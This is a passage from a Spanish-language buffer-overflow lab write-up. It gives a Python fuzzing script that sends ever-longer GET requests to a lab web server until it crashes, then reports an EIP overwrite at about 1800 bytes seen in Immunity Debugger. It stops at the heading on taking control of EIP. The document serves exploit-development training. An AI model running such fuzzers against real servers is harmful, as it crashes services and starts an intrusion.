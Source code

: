 ## Buffer Overflow

Esta versión es vulnerable a Buffer Overflow en el parámetro GET. Para probar esto, se creará un script que haga una petición por GET  con cierta cantidad de caracteres de forma progresiva hasta que se acontezca un error, esto con el objetivo de ver cuántos caracteres se necesitan para acontecer el error.

Además se usará el Immunity Debugger para analizar cómo se comporta el programa.

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104"
port = 80

def exploit ():

    total_length = 100

    while True:
        try:
            c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            c.settimeout(7)
            c.connect((ip_add, port))

            print("[+] Enviando %d bytes" % total_length)
            c.send(b"GET " + b"A"*total_length + b" HTTP/1.1\r\n\r\n")
            c.recv(1024)
            c.close()

            total_length += 100
                    
        except:
            print("[+] El programa ha crasheado en %d bytes" % total_length)
            sys.exit(1)

if __name__ == '__main__':
    exploit()
```

Como se puede ver, el programa crasheó al enviarse 1800 “As” y al verificar el Immunity debugger, se puede ver que se sobrescribió el registro EIP:

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 1.png)

![Untitled](/assets/Buffer-Overflow/Lab2/Untitled 2.png)

## Tomando el control de EIP

